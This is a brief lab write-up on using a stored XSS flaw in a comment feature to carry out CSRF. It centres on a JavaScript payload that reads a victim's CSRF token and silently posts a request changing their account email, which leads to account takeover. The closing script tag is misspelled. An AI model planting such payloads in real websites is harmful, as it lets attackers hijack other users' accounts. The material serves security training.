



# Exploiting XSS to perform CSRF
# Objective


# Solution
## Analysis
Logged user have possibility to change his email address.
||
|:--:| 
| */change-email request* |

Moreover, users on this website can post comments. This functionality is vulnerable to stored XSS.


## XSS Exploit
In order to perform CSRF JavaScript, enclosed in `<script>` tag, must read user’s `csrf` value and use it to create POST request to change his email on his behalf. JavaScript will be executed in user’s browser when user visits a page with malicious comment. Payload:
```js
<script>
window.addEventListener('DOMContentLoaded', function(){

// Read csrf value
var token = document.getElementsByName('csrf')[0].value;

// Prepare message body (payload)
var data = new FormData();
data.append('csrf', token)
data.append('email', 'newemail@email.com');

// Send Post request to change email
fetch('/my-account/change-email', {
method: 'POST',
mode: 'no-cors',
body: data});
});
</scirpt>
```

In this way attacker can take over someone’s account.

